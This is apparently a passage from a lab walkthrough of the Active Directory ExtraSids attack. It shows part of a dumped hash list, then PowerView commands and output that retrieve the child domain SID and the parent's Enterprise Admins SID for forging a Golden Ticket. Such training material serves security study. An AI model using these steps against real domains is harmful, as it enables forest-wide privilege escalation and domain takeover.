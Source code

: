         19  5cacbc938eaeb1b3a58572dafed92d97
        20  684ef5f716d49e4274a4ceb48d5fd6ba
        21  99968ef6b4c440cbd652ce6718a9ba39
        22  99968ef6b4c440cbd652ce6718a9ba39
        23  fbd2d7aef9329e981cd1bfdef2924843
        24  38653e1cf10018a3ae60fdb681241f1b
        25  5efd3ccfb3589c3bd6d76738ceeffb92
        26  dcd5dfeec024fe725edcaab5953d2011
        27  d92dcf29cd473a6ebae4b3bca1e578a9
        28  ff0382afc6adb89c00d5bf90cd5f4eca
        29  d7d958214c25d0835547320a0f0faf49
    ```
    

2.2 Obtaining the Child Domain SID

* Explanation: The child domain SID is required to create the Golden Ticket for the ExtraSids attack.
    
* Step-by-Step using PowerView:
    
    1. Load the PowerView module into your PowerShell session.
        
    2. Execute the command `Get-DomainSID` to retrieve the child domain SID.
        
    
    ```powershell
    PS C:\\Tools\\mimikatz\\x64> cd ..
    PS C:\\Tools\\mimikatz> cd ..
    PS C:\\Tools> import-module .\\PowerView.ps1
    PS C:\\Tools> Get-DomainSID
    S-1-5-21-2806153819-209893948-922872689
    PS C:\\Tools>
    ```
    

2.3 Obtaining the Enterprise Admins Group SID

* Explanation: The Enterprise Admins group SID is used to grant administrative access to the entire forest during the ExtraSids attack.
    
* Step-by-Step using PowerView:
    
    1. Load the PowerView module into your PowerShell session.
        
    2. Execute the command `Get-DomainGroup -Domain PARENTDOMAIN -Identity "Enterprise Admins" | select distinguishedname,objectsid` to retrieve the Enterprise Admins group SID.
        
    
    ```powershell
    PS C:\\Tools> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
    
    distinguishedname                                       objectsid
    -----------------                                       ---------
    CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
    
    PS C:\\Tools>
    ```
    